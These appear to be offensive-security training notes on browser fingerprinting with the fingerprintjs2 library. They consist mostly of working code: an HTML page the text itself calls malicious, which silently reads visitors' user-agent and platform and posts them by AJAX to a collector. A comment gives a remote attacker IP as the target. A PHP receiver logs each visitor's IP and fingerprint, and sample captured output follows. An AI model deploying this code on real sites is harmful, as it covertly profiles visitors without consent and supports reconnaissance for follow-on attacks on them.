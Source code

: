 # Browser Fingerprinting
## Tool: Fingerprintjs2 JavaScript library
[link here](https://github.com/LukasDrgon/fingerprintjs2/fork)
### sample: prints out the user-agent and platform components
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			document.write(details);
		});
	</script>
</html>
```

## parse user agent
https://developers.whatismybrowser.com/useragents/parse/#parse-useragent

## fingerprinting with AJAX: 
### Note:
*In this example,* the POST request is issued against the same server where the malicious web page is stored, therefore the URL used in the `xmlhttp.open` method does not specify an IP address.

A comment is added for when targeting a remote server
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			var xmlhttp = new XMLHttpRequest();
			xmlhttp.open("POST", "/fp/js.php");
			//example with a remote url
			//xmlhttp.open("POST", "http://20.20.20.129/fp/js.php");
			xmlhttp.setRequestHeader("Content-Type", "application/txt");
			xmlhttp.send(details);
		});
	</script>
</html>
```

## js.php for receiving the ajax: note: we have to `chown www-data:www-data /var/www/html/fp` directory to allow it to write the fingerprint data to a local txt file
```php
<?php
	$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
	$data .= file_get_contents('php://input');
	$data .= "---------------------------------\n\n";
	file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

## sample output: `cat fingerprint.txt`
```
Client IP Address: 127.0.0.1
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------

Client IP Address: 20.20.20.132
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------
```

---